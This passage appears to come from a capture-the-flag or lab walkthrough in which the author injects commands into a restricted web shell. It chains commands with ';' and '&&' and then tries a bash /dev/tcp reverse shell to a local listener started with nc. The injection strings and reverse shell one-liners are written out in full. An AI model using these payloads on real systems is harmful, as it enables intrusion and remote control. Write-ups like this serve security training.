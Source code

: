 
Let’s try something like `;`

* `ls; pwd;`


<br>
![A19 – they caught me!](https://i.imgur.com/O18uXlG.png)
<br>



Oh no! The internet police are coming after me!



Let’s try `&&`

<br>
![A20 – andand](https://i.imgur.com/MbiPSDA.png)
<br>

This is promising, but `pwd` is on the list of approved commands. Let’s try something unapproved, like `id`, `whoami` or `cd` .

* `pwd && id && whoami && cd /tmp && pwd`

<br>
![A21 – norules](https://i.imgur.com/mU1q3XJ.png)
<br>

Not only do we find out we can run commands, but we find out we can run `sudo`!

Let’s see if we can use this to run a reverse shell. I have had mixed success with `nc` using the `-e` flag, so my go to shell command is:


* `bash -i >& /dev/tcp/local.machine.ip.addr/PORTNUM 0>&1`


Which we need to run after `pwd` or one of the other commands – after we have set up our listener of course.

On our local machine, we run:

* `nc -lnvp 51000` - or any port number you like.

And then on the Web-Shell, try running.

* `pwd &&  bash -i >& /dev/tcp/192.168.56.1/51000 0>&1`

<br>
![A22 nobashrev](https://i.imgur.com/xHcXXR0.png)
<br>

It didn’t like that, or give us a shell – but we didn’t get a “not allowed” error. That's called progress!
My go-to method to get around this is to write a script containing the more complicated or powerful commands I want to run, then to run a command to download and execute that script using simpler commands. It usually comes in these three parts:
